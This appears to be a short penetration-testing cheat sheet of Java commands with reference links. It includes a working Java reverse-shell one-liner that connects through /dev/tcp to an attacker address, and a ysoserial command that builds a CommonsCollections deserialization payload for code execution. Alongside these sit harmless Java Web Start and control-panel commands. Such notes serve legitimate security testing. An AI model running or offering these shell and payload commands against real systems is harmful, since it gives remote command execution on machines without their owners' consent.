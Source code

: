 ### 1. Java reverse shell - replace ; with newline
```
r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor()
```
**- linux,reverse shells,java**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 2. run a java web start JNLP
```
/opt/jre1.8.0_91/bin/javaws [something].jnlp
```
**- java**
#### References:

https://www.java.com/en/download/faq/java_webstart.xml
__________
### 3. Open java control pannel
```
/opt/jre1.8.0_91/bin/jcontrol
```
**- java**
#### References:

http://linuxsysconfig.com/2013/12/how-to-enable-java-console-on-rpm-based-linux-systems/
__________
### 4. YsoSerial code execution 
```
java -jar ysoserial-0.0.2-all.jar CommonsCollections1 '[command]' > payload.out
```
**- web application,java**
#### References:

https://github.com/frohoff/ysoserial
http://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/
__________
